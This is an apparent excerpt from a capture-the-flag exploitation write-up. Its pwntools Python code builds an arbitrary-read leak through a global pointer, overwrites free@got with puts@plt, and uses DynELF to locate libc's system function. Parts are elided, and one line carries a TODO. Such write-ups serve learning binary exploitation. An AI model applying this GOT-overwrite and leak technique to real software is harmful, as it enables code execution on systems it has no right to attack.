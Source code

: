 ![image-20181130165823870](./img/image-20181130165823870.png)

### Diff exp2.py exp.py

```python
def leak(address):
    payload = p64(0) + p64(0) + p64(address)
    input(2, len(payload), payload)
    delete(1) # puts(address)

    io.recvuntil("OK\n")
    # raw_input("recv")
    data = io.recv()
    data = data.split("\nOK\n")[0] # this data is not belong to this address

    if data=="":
        data =  "\x00"
    log.debug("%#x => %s" % (address, (data or '').encode('hex')))
    return data   


def pwn(io):
    [...]

    log.info("[3] write puts@plt into free@got")
    #                                                 1               2                3               4 
    payload2_globalptr = p64(0) + p64(0) + p64(elf.got['free']) + p64(fd) + p64(0x400DEC) # //TODO
    input(2, len(payload2_globalptr), payload2_globalptr)
    input(1, 8, p64(elf.plt['puts']))

    io.recv()
    log.info("[4] leak system address...")
    # leak(elf.got['free'])
    # leak(0x400000)
    d = DynELF(leak, elf.address, elf)
    system_addr = d.lookup('system', 'libc') # must have  'libc'
    log.success("system addr: %#x" % system_addr)

```